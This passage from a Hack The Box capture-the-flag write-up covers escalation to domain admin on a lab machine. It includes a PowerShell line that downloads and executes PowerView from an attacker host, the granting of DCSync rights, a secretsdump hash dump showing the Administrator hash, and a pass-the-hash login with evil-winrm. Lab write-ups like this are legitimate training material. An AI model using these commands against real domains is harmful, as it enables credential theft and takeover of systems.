 Next, we will have to add DCSync privileges to our user. However before we can do that, we will need to download the PowerView.ps1 file onto our server.

For this to work, the ```TargetIdentity``` of the ```Add-DomainObjectAcl``` command must be set to htb.local/Domain Admins since we are targetting the identity of the Domain Admins group in htb.local. We will also need to specify the PrincipalIdentity to that of the user so that we can set the DCSync privileges to the user.

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> iex (New-Object Net.WebClient).DownloadString('http://10.10.16.8:4000/PowerView.ps1')
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $SecPassword = ConvertTo-SecureString 'P4ssword' -AsPlainText -Force 
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $Cred = New-Object System.Management.Automation.PSCredential('HTB\hacked', $SecPassword)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -Credential $Cred -TargetIdentity htb.local\Domain Admins -PrincipalIdentity hacked -Rights DCSync
```

Lastly, we will be using the impacket-secretsdump command to dump all the hashes of the users on the machine. From there, we are able to obtain the hash of the adminstrator user.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ impacket-secretsdump htb.local/hack:password@10.10.10.161
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
...
```

Using the hash that we have obtained earlier, we can use evil-winrm to do a pass-the-hash attack to authenticate as the adminstrator user.

```
┌──(kali㉿kali)-[~/Desktop/evil-winrm]
└─$ bundle exec evil-winrm.rb -i 10.10.10.161 -u administrator -p aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami
htb\administrator
```

### Obtaining root flag

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
<Redacted root flag>
```
